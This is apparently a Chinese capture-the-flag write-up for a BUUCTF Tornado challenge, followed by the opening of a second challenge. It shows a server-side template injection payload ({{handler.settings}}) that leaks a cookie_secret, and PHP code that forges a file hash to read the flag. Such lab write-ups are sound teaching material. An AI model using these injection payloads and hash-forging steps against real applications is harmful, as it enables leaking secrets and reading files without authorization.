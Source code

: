 ```
http://47cb66a8-02e8-4e15-ae66-2d14c45521f8.node3.buuoj.cn/file?filename=/hints.txt&filehash=1153333b8be335fadb7d29f4ca1d96bc
```

找cookie_secret算filehash

渲染函数render()，文件全部在网页上

用错误的filehash试一下

```
http://47cb66a8-02e8-4e15-ae66-2d14c45521f8.node3.buuoj.cn/file?filename=/fllllllllllllag
```

报error

```
http://47cb66a8-02e8-4e15-ae66-2d14c45521f8.node3.buuoj.cn/error?msg=Error
```

尝试

```
http://47cb66a8-02e8-4e15-ae66-2d14c45521f8.node3.buuoj.cn/error?msg={{1}}
```

出一个1

SSTI，服务器模板注入，查tornado，发现有个handler.settings

```
http://47cb66a8-02e8-4e15-ae66-2d14c45521f8.node3.buuoj.cn/error?msg={{handler.settings}}
```

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': 'b47f8947-9982-44df-8db8-8c85856ab61f'}
```

拿到cookie_secret

```
<?php
$cookie_secret = 'b47f8947-9982-44df-8db8-8c85856ab61f';
$filename = '/fllllllllllllag';
echo '?filename=/fllllllllllllag&filehash='.md5($cookie_secret.md5($filename));
?>
```

```
http://47cb66a8-02e8-4e15-ae66-2d14c45521f8.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=08042157060a8acab29dde01ff6ddde8
```



## [强网杯 2019]高明的黑客

```
雁过留声，人过留名，此网站已被黑
我也是很佩服你们公司的开发，特地备份了网站源码到www.tar.gz以供大家观赏
```
